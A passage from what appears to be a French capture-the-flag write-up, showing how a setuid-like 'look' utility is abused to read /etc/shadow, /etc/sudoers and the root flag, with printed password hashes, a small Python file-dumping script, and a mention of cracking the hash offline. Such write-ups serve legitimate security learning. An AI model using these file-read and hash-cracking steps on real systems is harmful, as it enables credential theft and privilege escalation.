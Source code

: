 J'ai en effet retrouvé [une manpage correspondant à cette version](https://www.geeksforgeeks.org/look-command-in-linux-with-examples/) qui permet de comprendre les différentes options.  

Pour faire court cet utilitaire permet d'extraire d'un fichier texte toutes les lignes commençant par un pattern donné.  

```plain
$ ./look root /etc/shadow
root:$6$fHvHhNo5DWsYxgt0$.3upyGTbu9RjpoCkHfW.1F9mq5dxjwcqeZl0KnwEr0vXXzi7Tld2lAeYeIio/9BFPjUCyaBeLgVH1yK.5OR57.:18888:0:99999:7:::
```

Et avec *randy* :  

```plain
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
```

J'ai écrit un script Python pour être en mesure de dumper la totalité d'un fichier grâce à ça. L'idée est de lancer *look* avec toutes les caractères imprimables :  

```python
import string
import subprocess
import sys

for c in string.printable:
    subprocess.call(["./look", c, sys.argv[1]])
```

On peut obtenir le flag final mais ça laisse un goût d'inachevé (rien de mieux qu'un shell) :  

```plain
$ python3 /tmp/test.py /root/root.txt
2fdbf8d4f894292361d6c72c8e833a4b
```

On voit que *randy* peut lancer son script Python en tant que *root* :  

```bash
$ python3 /tmp/test.py /etc/sudoers
root    ALL=(ALL:ALL) ALL
randy ALL=(root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
--- snip ---
```

Et pour la blague, en réalité mon script ne sert à rien car si on passe une chaîne vide à *look* il retourne la totalité du fichier :'D  

Pendant ce temps à Vera Cruz
----------------------------

L'utilisateur *randy* ne dispose pas de fichiers ou dossiers sur lesquels on peut écrire ni de process avec lesquels nous pourrions interagir... Il ne nous reste deux solutions :  

* bruteforce de son hash Unix
* utilisation d'un exploit sudo/kernel

La seconde option n'étant probablement pas celle attendue j'ai tenté de casser le hash sur ma machine puis l'ai finalement cassé avec [Penglab](https://github.com/mxrch/penglab).  
